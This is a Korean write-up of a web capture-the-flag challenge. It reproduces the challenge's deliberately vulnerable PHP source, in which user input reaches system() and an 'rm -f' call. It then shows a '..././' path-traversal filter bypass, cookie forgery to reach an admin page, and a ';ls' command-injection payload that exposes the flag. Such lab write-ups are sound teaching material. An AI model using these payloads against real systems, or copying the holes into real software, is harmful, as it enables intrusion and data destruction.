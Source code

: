 # Core

**Description:**
> 핵 실험은 진행 중... :(  
> (Core/Kernel/Nucleus/Hack)

## Write-up
![Main](img/001.png)  
메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있습니다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 됩니다.

우선 다운로드 되는 경로를 살펴보면 다음과 같습니다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack, the, planet와 같이 파일명을 입력하면 php 확장자를 붙여서 다운로드 됩니다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있습니다.  
/download.php?file=download  
/download.php?file=../download  
하지만, 두 경우 모두 Not Found로 파일을 다운로드 받을 수가 없습니다.

상대 경로로 상위 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있습니다.  
/download.php?file=../hack  
시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었습니다.

이 부분을 우회하기 위해서 "../"를 이중으로 넣어서 우회할 수 있습니다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있습니다.  
/download.php?file=..././download

download.php:  
```
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

download.php 소스 코드를 보면 파일이 다운로드 되는 과정을 볼 수는 있지만 추가적인 정보를 얻기에는 부족합니다.  
다시 처음으로 돌아가서 메인 페이지의 소스 코드를 보면 다음과 같은 코드를 볼 수 있습니다.  
```
.hint:sublime { text-decoration: none; }
```

![Hint](img/002.png)  
힌트는 Sublime Text로 메인 페이지의 소스를 Sublime Text로 보면 ADMIN이라는 문자열을 확인할 수 있고 admin으로 파일 다운로드를 시도하면 admin.php 파일을 획득할 수 있도록 마련한 장치입니다.  
/download.php?file=..././admin

admin.php:  
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body { background-color: #1d1d1d; color: #ffffff; padding: 90px; }
        a { text-decoration: none; color: #61646d; padding-left: 30px; }
        h1 { display: inline-block; color: #b20000;}
    </style>
    <title>ADMIN</title>
</head>
<body>
<?php
    @include 'config.php';

    print("<h1>Admin Page</h1>");
    print("<img src='files/worker.png'>"); 
    print("<br>Our website is still under construction. Sorry for the inconvenience...");
    @exec("ls files/",$list);

    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
    print("<h2>Lists...</h2>");
    for($i=0;$i<count($list);$i++) {
        print("<a href='?del=$list[$i]' onclick='alert(\"Unimplemented :(\");'>[DEL]</a> $list[$i]<br>");
    }
?>
</body>
</html>
```

admin.php 파일을 보면 config.php 파일을 확인할 수 있고 동일한 방법으로 다운로드 받아서 파일을 확인할 수 있습니다.  
/download.php?file=..././config

config.php:  
```
<?php
    if($_COOKIE['admin'] != "true") exit("Access Denied!");
?>
```

두 파일의 정보를 바탕으로 'admin' 쿠키 값을 "true"로 설정하고 admin.php 파일에 접근하면 관리자 페이지에 접근할 수 있습니다.  
![AdminPage](img/003.png)

그리고 admin.php 파일을 보면 다음과 같이 GET 파라미터로 값을 전달 받아서 파일을 삭제하는 부분을 볼 수 있으나, 아직 개발이 완료되지 않아서 전체 삭제가 되지 않도록 *(asterisk) 기호는 필터링되어 있고 글자 길이도 3글자가 넘을 경우 실행되지 않도록 처리되어 있는 것을 볼 수 있습니다.  
```
    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
```

보다 많은 정보를 얻기 위해서 이 부분을 우회하여 명령어가 실행되도록 아래와 같이 시도할 수 있습니다.  
/admin.php?del=;ls  
![AdminPage](img/004.png)

;ls를 입력하면 system("rm -f files/;ls");가 실행되기 때문에 현재 디렉터리의 파일 목록을 볼 수 있습니다.  
;는 명령어와 명령어 사이에 입력할 경우 두 명령어를 각각 실행할 수 있도록 구분지어 주는 역할을 해줍니다.  
따라서 ls가 실행된 결과를 보면 7h1s_is_f1a9.php 파일을 확인할 수 있습니다.

7h1s_is_f1a9.php 파일을 다운로드 받아서 확인해보면 flag를 획득할 수 있습니다.  
/download.php?file=..././7h1s_is_f1a9

7h1s_is_f1a9.php:  
```
<?php
    print("Access Denied!");
    # Flag is TDCTF{C0R3_H4CK_NUCL3U5}
?>
```

## Flag
TDCTF{C0R3_H4CK_NUCL3U5}
